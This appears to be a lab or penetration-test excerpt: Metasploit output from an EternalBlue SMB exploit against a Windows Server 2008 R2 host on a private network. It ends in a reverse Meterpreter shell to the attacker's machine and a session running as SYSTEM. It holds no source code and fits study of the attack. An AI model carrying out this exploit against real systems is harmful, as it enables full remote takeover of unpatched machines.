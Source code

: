 ```
[*] 192.168.248.133:445 - 0x00000020  37 36 30 30                                      7600            
[+] 192.168.248.133:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.248.133:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.248.133:445 - Sending all but last fragment of exploit packet
[*] 192.168.248.133:445 - Starting non-paged pool grooming
[+] 192.168.248.133:445 - Sending SMBv2 buffers
[+] 192.168.248.133:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.248.133:445 - Sending final SMBv2 buffers.
[*] 192.168.248.133:445 - Sending last fragment of exploit packet!
[*] 192.168.248.133:445 - Receiving response from exploit packet
[+] 192.168.248.133:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.248.133:445 - Sending egg to corrupted connection.
[*] 192.168.248.133:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.248.133
[+] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (192.168.248.148:4444 -> 192.168.248.133:49165) at 2023-01-27 08:32:29 -0500
```

```
meterpreter > sysinfo
Computer        : WIN-4QCPUB6FIVL
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```